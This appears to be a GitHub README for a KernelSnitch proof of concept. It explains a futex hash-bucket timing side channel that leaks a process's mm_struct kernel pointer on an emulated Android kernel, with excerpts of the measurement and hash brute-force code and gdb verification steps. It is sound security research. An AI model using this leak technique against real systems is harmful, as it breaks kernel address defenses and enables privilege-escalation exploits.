







# KernelSnitch: Practical Software Side-Channel Attacks on Kernel Data Structures

This repository contain Proof-of-Concept(PoC) code of kernelsnitch side-channel to leak **mm_struct** from kernel heap.

I found lots of repository that claims working kernelsnitch poc code, but I couldn't run or make any of it work.

Other repository claims they could leak mm_struct via futex_hash tables but they didn't work for me, so I decide to deep dive and try to implement it myself.

Repository Structure Overveiw:

`./src/` -> Contain poc code and libraries.

`emulate.sh` -> bash script that will emulate android kernel and busybox with qemu(ARM64).


### Setup Environment

 **Emulate android kernel with qemu and busybox.** 

For more detailed explanation checkout this blogpost: [streypaws.github.io](https://streypaws.github.io/posts/Android-Kernel-Build-Debugging/#emulate-the-android-kernel-using-qemu). So I won't copy paste explain these steps.

You must read above blogpost, compile kernel source code and busybox as written in that blogpost before continuing.

**So for this demo I used:**

- Android Kernel (**android14-6.1-deprecated**)

``````bash
git clone --branch deprecated/android14-6.1-2024-04 --depth 1 --single-branch https://android.googlesource.com/kernel/common android14-6.1-deprecated
``````

- Busybox (**buildroot-2025.05.1**) compiled as shown in above blogpost.

Download Link: https://buildroot.org/downloads/buildroot-2025.05.1.tar.gz

- qemu-system-aarch64 (**version 8.2.2**)

So after you've successfully emulate that kernel image you could connect to kernel via ssh.




### Let's GO.

There's `research_paper.pdf` which I put here for reference purpose, I will explain PoC code according to that research paper, and make it as simple expanation as possible to easily understand. 

You need to have knowledge about these before continuing:

- What is futex in linux kernel - [kernel-internals.org](https://kernel-internals.org/locking/futex/)

- What is kernelsnitch under the hood - Read `research_paper.pdf`.

Or just ask to AI which I do most of the time to speed up my learning.

#### What is KernelSnitch and Why we use it in here.

**KernelSnitch** is a generic software-induced side-channel attack that targets operating system kernel data containers—such as hash tables and trees—by measuring execution time variances caused by their variable occupancy levels from an unprivileged, isolated user space.   

In our Proof-of-Concept, we use KernelSnitch to precisely leak kernel heap pointers (specifically a target processss `mm_struct`) by observing hash collisions in structures like the futex hash table. Leaking this kernel memory address breaks address space layout defenses and enables advanced **cross-cache reuse**. This allows us to reclaim freed slab memory for security-critical objects (such as `msg_msg`), providing the foundational primitive required to successfully execute and scale downstream kernel exploits like **CVE-2026-43499** (futex use-after-free conditions).   


### The Root Cause: Variable Occupancy in Shared Containers

In linux kernel futex system. We have component called **futex_hash** table which is a fixed-size array of key-indexed buckets that store linked lists of active user-space synchronization queues (`struct futex_q` objects). Because the kernel must iterate through these linked lists during operations like `futex_wake()`, the execution time changes dynamically depending on the bucket's occupancy level, creating the timing side-channel that KernelSnitch exploits. 

So let's break above technical explanation into dump language like I understand. 
So meaning we could determine if futex hash bucket is empty or have lots of objects via timing different between `sys_futex` with `FUTEX_WAKE_PRIVATE` argument. 

As Maar et al. highlight in **Section IV (Root Cause Analysis)** and **Figure 4/5** of the paper:



 (Don't worry, we'll break down the exact `__measure` code handling this timing sorcery in just a bit)


#### Why We Need to Determine Timing Differences Between Empty and Full Hash Buckets

When we call `sys_futex` with `FUTEX_WAIT_PRIVATE` argument.
`kernel/futex/syscalls.c:166`

``````c
SYSCALL_DEFINE6(futex, u32 __user *, uaddr, int, op, u32, val,
		const struct __kernel_timespec __user *, utime,
		u32 __user *, uaddr2, u32, val3)
``````

It then calls `do_futex` then `futex_wait`

`````c
switch (cmd) {
	case FUTEX_WAIT:
		val3 = FUTEX_BITSET_MATCH_ANY;
		fallthrough;
	case FUTEX_WAIT_BITSET:
		return futex_wait(uaddr, flags, val, timeout, val3);
`````

The argument we control is `uaddr` value. 

`kernel/futex/waitwake.c:639`

``````c
int futex_wait(u32 __user *uaddr, unsigned int flags, u32 val, ktime_t *abs_time, u32 bitset)
{
	struct hrtimer_sleeper timeout, *to;
	struct restart_block *restart;
	struct futex_hash_bucket *hb;
	struct futex_q q = futex_q_init;
	int ret;
...
[*]	ret = futex_wait_setup(uaddr, val, flags, &q, &hb);
	if (ret)
		goto out;
...
}


int futex_wait_setup(u32 __user *uaddr, u32 val, unsigned int flags,
		     struct futex_q *q, struct futex_hash_bucket **hb)
{
	u32 uval;
	int ret;
...
retry:
[*]	ret = get_futex_key(uaddr, flags & FLAGS_SHARED, &q->key, FUTEX_READ);
	if (unlikely(ret != 0))
		return ret;

retry_private:
[*]	*hb = futex_q_lock(q);
...
	return ret;
}

``````

``````c
int get_futex_key(u32 __user *uaddr, bool fshared, union futex_key *key,
		  enum futex_access rw)
{
	unsigned long address = (unsigned long)uaddr;
	struct mm_struct *mm = current->mm;
...
    
[1]	key->both.offset = address % PAGE_SIZE; 
	if (unlikely((address % sizeof(u32)) != 0))
		return -EINVAL;
...
    
		if (IS_ENABLED(CONFIG_MMU))
[2]			key->private.mm = mm;
		else
[2]			key->private.mm = NULL;

[3]		key->private.address = address;
		return 0;
	}
...
}
``````

`get_futex_key` function setup `union futex_key` parameters. The only 3 of them are important for us which they are used in `futex_hash()` function which is one of two main functions which our side-channel attack based on.

[1] `key->both.offset = address % PAGE_SIZE` -> It set offset to **uaddr** % **PAGE_SIZE**.

[2] `key->private.mm = mm` -> It set **private.mm** = **mm_struct** object of current process or thread. We will need to brute force and try random addresses in this field.

[3] `key->private.address = address` -> This is our uaddr value from userspace.

Why this **get_futex_key** necessary for our research and poc.

Because if we look at `futex_wait_setup()` function again. 

``````c
int futex_wait_setup(u32 __user *uaddr, u32 val, unsigned int flags,
		     struct futex_q *q, struct futex_hash_bucket **hb)
{
	u32 uval;
	int ret;
...
retry:
[*]	ret = get_futex_key(uaddr, flags & FLAGS_SHARED, &q->key, FUTEX_READ);
	if (unlikely(ret != 0))
		return ret;

retry_private:
[*]	*hb = futex_q_lock(q);
...
	return ret;
}
``````

The key is consumed in `futex_q_lock()` (`kernel/futex/core.c:524`):

```c
/* The key must be already stored in q->key. */
struct futex_hash_bucket *futex_q_lock(struct futex_q *q)
    __acquires(&hb->lock)
{
    struct futex_hash_bucket *hb;

[*] hb = futex_hash(&q->key);

    futex_hb_waiters_inc(hb); /* implies smp_mb(); (A) */

    q->lock_ptr = &hb->lock;

    spin_lock(&hb->lock);
    return hb;
}

struct futex_hash_bucket *futex_hash(union futex_key *key)
{
    u32 hash = jhash2((u32 *)key, offsetof(typeof(*key), both.offset) / 4,
              key->both.offset);

    return &futex_queues[hash & (futex_hashsize - 1)];
}
```

`futex_q_lock()` calls `futex_hash()` with `q->key` which  filled in earlier by `get_futex_key()`. `jhash2()` then hashes the fields set there: the `mm` pointer, the page-aligned address, and the in-page offset (used as the initial value).

The hash table size depends on the CPU count. On my 4-CPU machine, `futex_queues` has 1024 buckets, which you can confirm in the boot log:

```
# dmesg | grep -i futex
[    0.103123] futex hash table entries: 1024 (order: 4, 65536 bytes, linear)
```

Because `futex_hash()` masks the 32-bit hash down to the table size (`hash & (futex_hashsize - 1)`), many different hash values map to the same index. Different futex keys can therefore land in the same `futex_hash_bucket`, and that collision is what the attack relies on.


Now the answer of **"Why We Need to Determine Timing Differences Between Empty and Full Hash Buckets"** 

Here’s the actual problem: we want the kernel’s `mm_struct` address, but there’s no syscall that just hands it to us. Userspace isn’t supposed to know where that pointer lives. So we need a side door, and `futex` is it.

**The core idea:**

When you call `sys_futex()` with `FUTEX_WAIT_PRIVATE`, the kernel:

1. Hashes `uaddr` + your process’s `mm_struct` pointer
2. Uses that hash to pick a bucket
3. Drops your futex into that bucket

Key fact — same process, same `uaddr`, means same `mm_struct` every time, which means **same bucket, every single call**.

**Step 1 — Fill a bucket**

Call `FUTEX_WAIT_PRIVATE` 4096 times, always with the same `uaddrA` this is how our increase and do_increase fucntion works in `./src/kernelsnitch.h`:

``````c
static void *__do_increase(void *arg)
{
    struct inc_arg *inc_arg = (struct inc_arg *)arg;
    struct kernelsnitch_shared_state *ks = inc_arg->ks;
    SYSCHK(__futex((unsigned int *)&ks->inc_futex[128], FUTEX_WAIT_PRIVATE, 0, NULL, NULL, 0));
    free(inc_arg);
    return 0;
}

static void __increase(struct kernelsnitch_shared_state *ks, size_t id, size_t amount)
{
    pthread_t tid;
    for (size_t i = 0; i < amount; ++i) {
        struct inc_arg *inc_arg = calloc(1, sizeof(struct inc_arg));
        inc_arg->ks = ks;
        SYSCHK(pthread_create(&tid, 0, __do_increase, (void *)inc_arg));
    }
    WAIT();
}
``````

Our `&ks->inc_futex[128]` is sample **uaddr** value.

Now one bucket is stuffed with 4096 entries, and we know exactly which `uaddr` filled it, it is address of `ks->inc_futex[128]`.

**Step 2 — Probe with timing**

Call `FUTEX_WAKE_PRIVATE` against a candidate address this is what `__measure()` function does.:

```c
static size_t __measure(size_t futex_addr)
{
    size_t t0;
    size_t t1;
    size_t time = 0;
    // do some simple signal processing and reject bad ones
    size_t __times[REPEAT_MEASUREMENT];
    for (size_t l = 0; l < REPEAT_MEASUREMENT; ++l) {
        sched_yield();
        t0 = rdtsc_begin();
[*]        SYSCHK(__futex((unsigned int *)futex_addr, FUTEX_WAKE_PRIVATE, 0, NULL, NULL, 0));
        t1 = rdtsc_end();
        __times[l] = t1 - t0;
    }
    qsort(__times, REPEAT_MEASUREMENT, sizeof(size_t), __compare);
    for (size_t l = 0; l < AVERAGE; ++l)
        time += __times[l];
    time /= AVERAGE;
    return time;
}
```

Two possible outcomes:

- `uaddrB` → different bucket → **empty**, fast lookup
- `uaddrB` → same bucket as `uaddrA` → kernel walks **all 4096 entries** one by one → slow

As research paper says: *"For consistent timing results, we filter outliers and focus on the ones not influenced by noise. Noise can only increase the timing and, hence, we average the lowest **8** values over **512** measurements*" but we define `REPEAT_MEASUREMENT` as 128 which is enough for us.

The paper measured this slowdown at roughly **10x**. So we don’t need to see inside the kernel — we just need a stopwatch. Slow wake = collision. Fast wake = no collision.

```
┌─────────────┐     fast wake      ┌──────────────┐
│  uaddrB      │ ─────────────────▶│ different bkt│
└─────────────┘                    └──────────────┘

┌─────────────┐     slow wake      ┌──────────────┐
│  uaddrB      │ ─────────────────▶│ SAME bucket   │
└─────────────┘   (walks 4096)     │ as uaddrA     │
                                    └──────────────┘
```

**Step 3 — Rebuild the kernel’s hash function, ourselves**

Once we know *how* the kernel hashes, we just copy the logic into userspace:

```c
uint32_t __futex_hash(futex_key_t *key, uint32_t futex_hashsize)
{
    uint32_t hash = futex_hash_no_trunc(key);

    return hash & (futex_hashsize - 1);
}
```

What’s happening here:

- `futex_hash_no_trunc()` → does the real Jenkins-hash grinding over `futex_key_t` (which bakes in the `mm_struct` pointer)
- `hash & (futex_hashsize - 1)` → chops the raw hash down to fit our bucket count

This is the *exact* masking the kernel does inside its own `futex_hash()`. Same math, line for line.

**Step 4 — Brute force**

Here’s the payoff: our homemade hash function only agrees with the kernel’s — i.e. says “yep, `uaddrA` and `uaddrB` collide” — when we plug in the **correct** `mm_struct` address.

So the plan:

1. Guess a kernel heap address (aligned the way `mm_struct` allocations actually are — not random byte-by-byte)
2. Build a `key` using that guess
3. Run it through `__futex_hash()` for both `uaddrA` and `uaddrB`
4. Compare the result against what the timing side channel told us

```
guess mm_struct ──▶ __futex_hash(uaddrA, guess) ──┐
                                                    ├──▶ match?
guess mm_struct ──▶ __futex_hash(uaddrB, guess) ──┘
```

The moment a guess produces a collision that matches what we *measured* — that’s it. That guess **is** the real `mm_struct` address.

We just leaked a kernel pointer using nothing but timing and arithmetic.


### Let's test our code.

First compile our binary: 

``````bash
cd src 
make
``````

ignore warnings and as the result we will get `main` binary file.

Launch our emulator and upload that binary

``````bash
bash emulate.sh &

scp -P 13337 ./main root@localhost:~/
``````

Result:



So question here that **mm_struct** address claimed really **mm_struct** pointer of our process.


Run the emulator with `debug` argument



That way we could attach **gdb** and debug that kernel interactively.  So we want to check if our kernel_snitch poc `main` binary find correct **mm_struct** as it claims.

When you compile kernel yourself as shown in above blogpost. You will get `vmlinux` file in that kernel folder.

In my case I'll use `pwndgb`.  Set breakpoint at 

``````c
break futex_wait if $_streq(((struct task_struct *)$SP_EL0)->comm, "main")
``````

above breakpoint will hit when we call `__increase` function.

`emulate.sh` will expose gdbserver port on `1234` port, connect to remote gdbserver via 

``````bash
target remote localhost:1234
``````




Type `c` after you connect, now pwndbg wait for `futex_wait` from processname `main`

Now run our `main`.

Once our breakpoint hit 

``````bash
pwndbg> p/x ((struct task_struct *)$SP_EL0)->mm
``````



Now we should see `0xffffff80019428c0` as our mm_struct from `main` output.

detach our gdb session from kernel by typing `detach`



As we expected we got `0xffffff80019428c0` output.
